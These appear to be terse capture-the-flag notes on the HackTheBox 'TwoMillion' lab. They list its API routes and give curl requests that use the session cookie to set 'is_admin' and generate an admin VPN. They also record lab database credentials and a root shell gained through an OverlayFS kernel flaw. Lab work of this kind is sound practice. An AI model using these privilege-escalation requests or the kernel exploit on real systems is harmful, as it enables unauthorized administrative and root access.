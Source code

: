 ## TwoMillion Box

Can use javascript console to call loaded function in page like `makeInviteCode()`

cagiko4571@bitofee.com - temp mail
admin123 - password

http://2million.htb/api/v1/user/vpn/generate


cookie: tk5n6qrq4ern206r0a426pd7m6

 curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" --header "Content-Type: application/json" -d '{"email": "cagiko4571@bitofee.com", "is_admin": '1'}' | jq

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" --header "Content-Type: application/json" --data '{"username": "test"}'

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

OverlayFS vuln for linux kernel popped root shell
